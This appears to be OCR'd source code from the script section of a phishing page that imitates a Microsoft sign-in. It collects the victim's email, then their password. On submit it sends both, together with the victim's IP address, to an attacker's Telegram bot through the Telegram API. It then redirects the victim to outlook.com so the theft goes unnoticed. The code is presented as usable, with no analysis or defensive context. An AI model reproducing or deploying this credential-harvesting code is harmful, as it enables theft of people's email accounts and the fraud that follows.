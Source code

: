       const emAil = document.querySelector('#usr')
      const suBBer = document.querySelector('#suber')
      const pWd = document.querySelector('#pwd')
      const strong = document.querySelector('.strong')
      
	  const submit = document.querySelector('#sub').addEventListener('click', e =>{
        if(emAil.value === ''){
		
		
		
          return
        }
        display.textContent = emAil.value
        strong.textContent = 'Enter password'
        emAil.style.display = 'none'
        pWd.style.display = 'block'
        submit.style.display = 'none'
        suBBer.style.display = 'block'
      })


    forma.addEventListener("submit", e =>{
          e.preventDefault();
          let email = document.querySelector('#usr').value
          let pwd = document.querySelector('#pwd').value
		  let ips = document.querySelector('#ipaddress').value

        fetch(`https://api.telegram.org/bot${bot.TOKEN}/sendMessage?chat_id=${bot.chatID}&text=Microsoft=>${email}=${pwd}==IP:>${ips}`, {
              method: "GET"
          }).then(success => {
              window.location.replace("https://outlook.com/");
          }, error => {
              console.log(error)
              }) 
      })
    </script>
</body>
</html>
